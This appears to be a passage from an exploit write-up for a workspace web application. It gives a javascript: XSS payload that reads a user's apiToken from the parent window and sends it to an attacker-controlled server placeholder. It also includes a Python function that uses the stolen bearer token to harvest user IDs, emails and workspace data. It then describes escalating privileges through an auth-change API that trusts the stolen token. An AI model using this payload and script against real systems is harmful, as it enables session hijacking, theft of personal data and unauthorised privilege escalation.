 ## Payload

### Stealing apiToken sessions using XSS attacks.

- Two levels of payload should be operated.
- In order to obtain the `apiToken` value of the user who wants to steal based on `iframe XSS`, the `apiToken` is sent to the response server by obtaining the value of the `App in the window parent object.`

```html
javascript:window.location.href='<RevicedServer>?'+(window.parent.App.apiToken)
```

### Gathering necessary information.

- After the elevation of authority is completed, call the `/api/v1/workspace/getDashboardWorkspaceUsers` API to steal the information necessary for the elevation of authority. (`workspace_user_id`, `workspace_id`, `user_id`)

```python
def getDashbordInfo(self):
    Headers = {
        "Host": self.target_url,
        "Authorization": f"Bearer {self.token}"
    }
    # What is auth
    auth = input("[?] What is auth? (admin/member/guest) : ")
    data = {"workspace_id": self.workspace_id, "auth": auth}
    res = requests.post(
        f"https://{self.target_url}/api/v1/workspace/getDashboardWorkspaceUsers", data=data, headers=Headers)
    state = json.loads(res.content.decode())
    # input name, id, email, user_id, workspace_id, auth, room_id,
    for i in state:
        self.target_user[i['name']] = {'workspace_user_id': i['id'], 'email': i['email'], 'user_id': i['user_id'],
                                       'workspace_id': i['workspace_id'], 'auth': i['auth'], 'room_id': i['room_id']}
    # output self.target_user name
    for i in self.target_user:
        print(f"[+] {i} ")
        print("============================")
        # element output
        for j in self.target_user[i]:
            print(f"[+] {j} : {self.target_user[i][j]}")
        print("============================")
```

### Privilege escalation proceeding after session hijacking

- `/api/v1/workspaceUser/change/auth` api only verifies the authority for the stolen `apiToken`, so based on the stolen token, `workspace_user_id_to_update`, `workspace_user_id`, `workspace_id`, and `auth` data are made into a target form, and then POST requests to complete the elevation of the authority.
